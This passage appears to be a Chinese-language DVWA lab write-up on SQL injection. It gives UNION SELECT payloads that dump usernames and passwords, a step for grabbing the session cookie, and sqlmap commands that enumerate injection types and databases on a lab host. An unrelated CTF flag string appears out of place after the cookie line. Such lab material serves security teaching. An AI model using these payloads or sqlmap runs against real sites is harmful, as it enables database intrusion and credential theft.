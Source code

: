 `1' union select user,password from users#`

![image-20211101181835396](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949393.png)

`1' union select avatar,111 from users#`

![image-20211101182149834](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949855.png)

`1' union select group_concat(last_login),group_concat(failed_login) from users#`（这里如果不用`group_concat`的话，由于五个last_login和failed_login都是一样的，只会显示一个）

![image-20211101182544905](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949503.png)



------

#### 【Low-sqlmap】

##### ①获取登录DVWA的cookie

在页面中按F12进入开发者模式，在console中输入`document.cookie`获得cookie：

![image-20211102212659650](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949397.png)

cookie：`"security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a"`

ctfshow{3aa7f41d-6014-4791-93f3-ed03bf449191}

##### ②sqlmap-GET

因为页面中id的参数会随着输入发生变化，所以可以通过GET参数注入。

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch`

![image-20211101150917005](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949866.png)

扫描结果：

![image-20211101151150374](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949788.png)

sqlmap 通过133次测试后，找到了四种进行注入的方法（即四种漏洞），分别是`boolean-based blind`, `error-based`, `time-based blind`, `UNION query`。另外sqlmap还给出了服务器使用的操作系统、web 引擎和MySQL 的大致版本。



##### ③使用 `--dbs`查看数据库

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch --dbs`

扫描结果：

![image-20211101151509474](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949873.png)

扫描出共有5个数据库，分别是dvwa、infomation_schema、mysql、performance_schema和sys。
